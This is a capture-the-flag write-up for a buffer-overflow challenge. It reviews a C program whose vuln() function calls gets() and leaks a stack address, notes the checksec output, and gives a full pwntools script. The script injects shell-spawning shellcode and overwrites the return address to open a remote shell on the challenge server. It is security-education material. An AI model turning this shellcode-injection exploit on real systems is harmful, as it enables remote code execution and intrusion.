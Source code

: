 # Disclaimer
This problem is almost completely identical to speedrun4, but I will include most of my writeup from that challenge as it is applicable here.

# Reconnaissance
## C Review
The `main()` function looks pretty plain, the use of `fgets()` protects the `sample` buffer from overflowing, so there is no vulnerability in that. But the last part of `main()` calls another function, `vuln()`. `vuln()` calls `gets()` to write into the `buf` variable, allowing us to over flow, which is an obvious attack vector. However, there is no function call to overwrite here, and no `win()` function to change the return address to. But, the `vuln()` does print something, and it leaks the address of `buf`! What this means is that we can put our own shellcode into `buf` and then overflow into the return address, changing this to the address of `buf` so that we call our own code.

## Binary Analysis
First, lets check how the ELF runs with the `checksec` command:
>$checksec ./challenge/chall_3

>Arch:     amd64-64-little  
>RELRO:    Full RELRO  
>Stack:    No canary found  
>NX:       NX disabled
>PIE:      PIE enabled
>RWX:      Has RWX segments
A couple things to note here: firstly, stack canary is disabled which will make things easier and NX is disabled which means there is no protection stopping our own code from executing. PIE is enabled, so we will need to use the address leaked in the `vuln()` function to know where `buf` is. Additionally there are RWX segments, which is what allows our code to execute. There is also Full RELRO, which I don't fully understand myself, but I believe that it prevents buffer overflow attacks from going to other FUNCTIONS, but won't stop us from redirecting the return address to inside of the buffer.

Next, lets decompile the executable file we were given with Ghidra to get an idea of what the stack looks like in the `vuln()` function.  

![Ghidra Vuln Function Image](writeUpFiles/ghidra1.png)  

Looking into Ghidra we can see that `local_78` is the buffer, and it is located at memory address -0x78 on the stack--which means it has a length of 112 bytes. That's the most significant information we can get from Ghidra, since PIE is enabled and memory addresses here will not be absolute.  

# Script
To start testing, we are going to run our script on the ELF we were given for the challenge. We can load it like this:
```{python}
from pwn import *

EXE = ELF("./challenge/chall_3")

context.binary = EXE
context.terminal = ['xterm', '-e']
context.log_level = "DEBUG"

def conn(useExe=False):
	if useExe:
		# r = gdb.debug(EXE.path, "\n".join(breakpoints))
		r = process([EXE.path])
	else:
		r = remote('pwn.osucyber.club',13373)
	return r
```
The `ELF()` function from `pwn` allows us to add information about the binary to our `pwn` context, and we set the `log_level` to "DEBUG" so that we will get verbose output from all of the functions describing what was received or sent. The `conn()` function being set up here simply allows us to minimally change the program to run remotely when we are finished with testing. Calling `conn(True)` connects to the local installation of the server executable, whose path is written in the definition of the `EXE` variable. Then once our testing is completed, we can call `conn(False)` to make a connection to the remote server.

Next, we get the input from the process and find the address of `buf`:
```{python}
io = conn(False)
# Wait for the process to send "One more time" and respond to move onto vuln()
io.recvline()
io.send(b'a\n')

# Wait for the program to leak the address of the buffer we are writing to:
io.recvuntil("No really, it was pretty good before COVID: ")
data = io.recvline()[:-1]
buf_address = int(data, 16)
```

Finally, we craft and send our payload:
```{python}
# Create a payload with an offset of 120 bytes then the address of the buffer send it, and open an 
# interactive terminal -- The system is 64-bit so we need a 64-bit pointer to the address of buf.
# This offset is 120 bytes because buf is 112 bytes, and the base pointer between the buffer and
# the return address is an additional 8 bytes (64-bit system)
payload = asm(shellcraft.sh())
payload += b'a'*(120-len(payload))
payload += p64(buf_address)+b'\n'
print(len(payload))
io.send(payload)
io.interactive()

io.close()
```

If this spawns a terminal, then our code worked! We can run it again on the server then call `ls` and `cat flag.txt` in the interactive shell!